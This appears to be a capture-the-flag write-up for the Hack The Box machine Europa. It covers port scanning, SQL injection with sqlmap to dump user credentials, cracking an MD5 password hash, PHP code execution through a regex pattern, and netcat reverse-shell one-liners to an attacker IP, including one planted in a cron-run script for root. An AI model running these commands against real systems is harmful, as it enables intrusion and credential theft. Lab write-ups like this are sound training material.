





---
search:
  exclude: true
---
# Europa Writeup

## Introduction :

Europa is a medium Linux box released back in June 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.20/23 ] [~]
      → nmap -F 10.10.10.22
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 16:20 GMT
      Nmap scan report for 10.10.10.22
      Host is up (0.100s latency).
      Not shown: 97 filtered ports
      PORT    STATE SERVICE
      22/tcp  open  ssh
      80/tcp  open  http
      443/tcp open  https
    
      Nmap done: 1 IP address (1 host up) scanned in 3.03 seconds
    
      λ nihilist [ 10.10.14.20/23 ] [~]
      → nmap -sCV -p22,80,443 10.10.10.22
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 16:20 GMT
      Nmap scan report for 10.10.10.22
      Host is up (0.11s latency).
    
      PORT    STATE SERVICE  VERSION
      22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
      |   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
      |_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
      80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      | ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
      | Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
      | Not valid before: 2017-04-19T09:06:22
      |_Not valid after:  2027-04-17T09:06:22
      |_ssl-date: TLS randomness does not represent time
      | tls-alpn:
      |_  http/1.1
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 19.81 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it by running dirsearch :
    
    
      λ nihilist [ 10.10.14.20/23 ] [~]
      → dirsearch -u http://10.10.10.22/ -e php,html,txt -t 50
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: php, html, txt | HTTP method: get | Threads: 50 | Wordlist size: 6733
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-02-24_16-22-58.log
    
      Target: http://10.10.10.22/
    
      [16:22:59] Starting:
      [16:23:01] 403 -  297B  - /.ht_wsr.txt
      [16:23:01] 403 -  290B  - /.hta
      [16:23:01] 403 -  299B  - /.htaccess-dev
      [16:23:01] 403 -  301B  - /.htaccess-local
      [16:23:01] 403 -  301B  - /.htaccess-marco
      [16:23:01] 403 -  299B  - /.htaccess.BAK
      [16:23:01] 403 -  300B  - /.htaccess.bak1
      [16:23:01] 403 -  299B  - /.htaccess.old
      [16:23:01] 403 -  300B  - /.htaccess.orig
      [16:23:01] 403 -  302B  - /.htaccess.sample
      [16:23:01] 403 -  300B  - /.htaccess.save
      [16:23:01] 403 -  299B  - /.htaccess.txt
      [16:23:01] 403 -  300B  - /.htaccess_orig
      [16:23:01] 403 -  301B  - /.htaccess_extra
      [16:23:01] 403 -  298B  - /.htaccessBAK
      [16:23:01] 403 -  298B  - /.htaccess_sc
      [16:23:01] 403 -  298B  - /.htaccessOLD
      [16:23:01] 403 -  299B  - /.htaccessOLD2
      [16:23:01] 403 -  296B  - /.htaccess~
      [16:23:01] 403 -  294B  - /.htgroup
      [16:23:01] 403 -  299B  - /.htpasswd-old
      [16:23:01] 403 -  300B  - /.htpasswd_test
      [16:23:01] 403 -  296B  - /.htpasswds
      [16:23:01] 403 -  294B  - /.htusers
      [16:23:17] 200 -   12KB - /index.md
      [16:23:24] 403 -  300B  - /server-status/
      [16:23:24] 403 -  299B  - /server-status
    

not much on it, except the default index.html apache 2 default page our nmap scan picked up earlier. Instead we see that our previous nmap scan picked up port 443 with the alternative dns name of DNS:admin-portal.europacorp.htb so let's add it to our /etc/hosts.
    
    
      λ root [ 10.10.14.20/23 ] [/home/nihilist]
      → echo '10.10.10.22 admin-portal.europacorp.htb' >> /etc/hosts
    

Now we browse to the following link : https://admin-portal.europacorp.htb, and we are greeted with a login page : 

from here, we can start trying some basic sql injections, you can see below our interecepted request using burpsuite : which we will then send to the repeater (ctrl+R) and then go to it (ctrl+shift+r)
    
    
    POST /login.php HTTP/1.1
    Host: admin-portal.europacorp.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://admin-portal.europacorp.htb/login.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 46
    DNT: 1
    Connection: close
    Cookie: PHPSESSID=5vfcs42gqn2tbe9am730gusr71
    Upgrade-Insecure-Requests: 1
    
    email=admin%40europacorp.htb&password;=password
    

from here we need to do some trial and error with sql injection cheatsheets, but once we find the correct arguements, we can continue: 

from there, we can also use sqlmap
    
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Europa]
      → sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password;=whatever"
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Europa]
      → sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password;=whatever" –dbs
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Europa]
    → sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password;=whatever" –tables -D admin
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Europa]
    → sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password;=whatever" –tables –columns -D admin -T users
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Europa]
    → sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password;=whatever" -D admin -T users –dump password
    
    

and after running the aforementionned commands which take some time we get the following results : 
    
    
      +----+----------------------+--------+---------------+----------------------------------+
    | id | email                | active | username      | password                         |
    +----+----------------------+--------+---------------+----------------------------------+
    | 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
    | 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
    +----+----------------------+--------+---------------+----------------------------------+
    

Putting the aforementionned hashes into **hash-identifier** we see that we are dealing with md5 hashes : 
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/Europa]
    → hash-identifier
       #########################################################################
       #     __  __                     __           ______    _____           #
       #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
       #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
       #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
       #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
       #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
       #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
       #                                                             By Zion3R #
       #                                                    www.Blackploit.com #
       #                                                   Root@Blackploit.com #
       #########################################################################
    --------------------------------------------------
     HASH: 2b6d315337f18617ba18922c0b9597ff
    
    Possible Hashs:
    [+] MD5
    [+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
    
    

So cracking it using https://hashkiller.io/ we find the password we need which is : SuperSecretPassword!

once logged in as admin@europacorp.htb:SuperSecretPassword! we go to the Tools tab and we see some sort of an openvpn configuration:
    
    
      "openvpn": {
            "vtun0": {
                    "local-address": {
                            "10.10.10.1": "''"
                    },
                    "local-port": "1337",
                    "mode": "site-to-site",
                    "openvpn-option": [
                            "--comp-lzo",
                            "--float",
                            "--ping 10",
                            "--ping-restart 20",
                            "--ping-timer-rem",
                            "--persist-tun",
                            "--persist-key",
                            "--user nobody",
                            "--group nogroup"
                    ],
                    "remote-address": "ip_address",
                    "remote-port": "1337",
                    "shared-secret-key-file": "/config/auth/secret"
            },
            "protocols": {
                    "static": {
                            "interface-route": {
                                    "ip_address/24": {
                                            "next-hop-interface": {
                                                    "vtun0": "''"
                                            }
                                    }
                            }
                    }
            }
    }
    

So below that config we have a generate button, so we turn the intercept on, activate foxyproxy as we did earlier, and intercept the request. 

looking at the pattern parameter, we see that it is a regular expression %2F ( / ) , ip address, and then %2F ( / ) so let's investigate this further by sending the request over to the repeater (ctrl + r) and then going there (ctrl + r) then into the params tab where we can clearly see the pattern we described earlier : 

now let's change the pattern to try and execute php code since this is a deprecated regular expression : 

And we get remote code execution ! now let's move over to using a reverse shell one liner : 
    
    
      rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4444 > /tmp/f
    

and let's see if we get a reverse shell : 

And we get a reverse shell ! now let's print out the user flag : 
    
    
    $ which python
    $ cd /home
    $ ls
    john
    $ cd john
    $ cat user.txt
    2fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now in order to privesc we need to enumerate the cronjobs running on the machine :
    
    
      $ cat /var/www/cronjobs/clearlogs
    #!/usr/bin/php
    <****?php
    $file = '/var/www/admin/logs/access.log';
    file_put_contents($file, '');
    exec('/var/www/cmd/logcleared.sh');
    ?****>

cron executes a shellscript named "logcleared.sh" every x minutes, so let's add a reverse shell line (one liner once again) but this time on our port 9001. 
    
    
      $ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 9001 > /tmp/f' > /var/www/cmd/logcleared.sh
      $ chmod 777 /var/www/cmd/logcleared.sh
    

Now we wait a bit with our second netcat listener on port 9001, and we finally get a reverse shell as root : 
    
    
      λ nihilist [ 10.10.14.20/23 ] [~]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.20] from (UNKNOWN) [10.10.10.22] 46498
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    7fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

